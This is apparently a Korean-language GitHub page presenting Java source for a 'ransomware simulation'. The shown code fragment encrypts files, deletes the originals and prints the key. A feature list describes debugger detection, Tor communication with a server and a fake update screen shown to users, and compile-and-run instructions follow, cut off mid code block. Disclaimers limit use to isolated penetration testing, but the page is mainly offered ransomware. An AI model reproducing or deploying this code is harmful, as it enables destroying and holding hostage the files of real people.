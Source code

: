 ```java
                File encryptedFile = new File(file.getAbsolutePath() + ".encrypted");
                encryptFile(file, encryptedFile, secretKey);
                file.delete();
                System.out.println("Encrypted file: " + encryptedFile.getAbsolutePath());
            }

            String encodedKey = Base64.getEncoder().encodeToString(secretKey.getEncoded());
            String id = hashWithSHA256("unique_id_" + System.currentTimeMillis());
            System.out.println("Generated ID: " + id);
            System.out.println("Encoded Key: " + encodedKey);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

# 주요기능  

1. 환경 체크: 시스템 정보를 출력하고 디버거 존재 여부를 감지.  
2. Tor 통신: Tor 프록시를 통해 서버와 통신.  
3. 가짜 UI 표시: 업데이트 화면을 사용자에게 보여주는 시뮬레이션.  
4. 파일 암호화: 지정된 디렉토리 내 파일을 AES로 암호화.  
5. SHA-256 ID 생성: 고유한 ID를 생성해 데이터 보호 시뮬레이션.  

모의 해킹시에나 위 코드 사용할수 있다. 절대로 악의적인 의도로 위 코드를 실행시켜선 안된다.  
그건 불법으로, 민사등의 처벌을 받을 수 있음을 명심하자.  

### 모의해킹 목적으로 안전하게 위 코드 실행하기
1. 격리된 테스트 환경 사용  
코드 실행은 물리적 인터넷과 분리된 가상 환경(예: VirtualBox, VMware)에서만 수행해야 한다.  
가상머신은 테스트 후 초기화하여 외부로 데이터가 유출되지 않도록 해야 한다.  
테스트 환경에 사용된 파일은 반드시 임시 파일이어야 하며, 중요한 파일은 절대 사용하지 말아야 한다.  

2. 테스트 범위 제한  
자신의 관리 권한이 없는 환경에서 실행하거나 배포하지 않아야 한다.  
테스트 대상은 동의한 시스템과 환경이어야 하며, 다른 사람의 데이터를 포함해서는 안된다.  

3. 교육 및 연구 목적으로 만 사용  
수업이나 윤리적 해킹 목적으로 사용하려는 경우, 반드시 법적 절차를 따르고 관련 기관(예: 학교, 회사)에서 허가를 받아야 한다.  
해당 목적에 대해 명확히 설명하고, 실행 결과가 외부로 유출되지 않도록 해야 한다.  

4. 코드 실행  
    1. Java 컴파일 환경 준비  
    Java Development Kit(JDK)를 설치한다.  
    코드를 단일 파일로 합치고, .java 확장자로 저장합니다(예: RansomwareSimulation.java).  

    2. 컴파일 및 실행  
    먼저, 컴파일 하고  
    ```bash
    javac RansomwareSimulation.java
